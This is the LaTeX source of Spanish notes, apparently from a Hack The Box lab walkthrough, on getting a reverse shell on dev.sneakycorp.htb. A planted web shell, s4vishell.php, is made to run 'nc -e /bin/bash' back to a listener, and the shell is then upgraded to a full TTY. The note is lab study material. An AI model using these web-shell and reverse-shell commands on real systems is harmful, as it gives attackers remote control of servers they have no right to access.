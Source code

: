 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\hypertarget{crear-una-reverse-shell-con-s4vishell.php}{%
\subsection*{Crear una reverse shell con s4vishell.php}\label{crear-una-reverse-shell-con-s4vishell.php}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Escuchamos por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dev.sneakycorp.htb}\NormalTok{/}\ExtensionTok{s4vishell.php?cmd}\NormalTok{=nc -e /bin/bash 10.10.14.20 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{tratamiento-de-la-tty-4}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-4}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
\end{document}
